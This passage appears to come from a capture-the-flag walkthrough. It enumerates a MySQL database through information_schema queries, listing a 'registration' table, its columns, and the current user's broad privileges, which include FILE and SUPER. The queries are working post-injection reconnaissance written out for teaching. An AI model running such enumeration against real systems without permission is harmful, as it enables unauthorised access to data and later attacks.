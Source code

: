 
### Enumerate DB

There are four DBs in this instance, but only `registration` is interesting as
far as having data (the others are mysql internals):

    
    
    > select schema_name from information_schema.schemata
    information_schema
    performance_schema
    mysql
    registration
    

There’s a single table in that DB:

    
    
    > select table_name from information_schema.tables where table_schema = 'registration'
    registration
    

It has four columns:

    
    
    > select column_name from information_schema.columns where table_name = 'registration'
    username
    userhash
    country
    regtime
    

There’s no kind of password or anything.

I can check for what privileges my user has:

    
    
    > select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
    SELECT
    INSERT
    UPDATE
    DELETE
    CREATE
    DROP
    RELOAD
    SHUTDOWN
    PROCESS
    FILE
    REFERENCES
    INDEX
    ALTER
    SHOW DATABASES
    SUPER
    CREATE TEMPORARY TABLES
    LOCK TABLES
    EXECUTE
    REPLICATION SLAVE
    BINLOG MONITOR
    CREATE VIEW
    SHOW VIEW
    CREATE ROUTINE
    ALTER ROUTINE
    CREATE USER
    EVENT
    TRIGGER
    CREATE TABLESPACE
    DELETE HISTORY
    SET USER
    FEDERATED ADMIN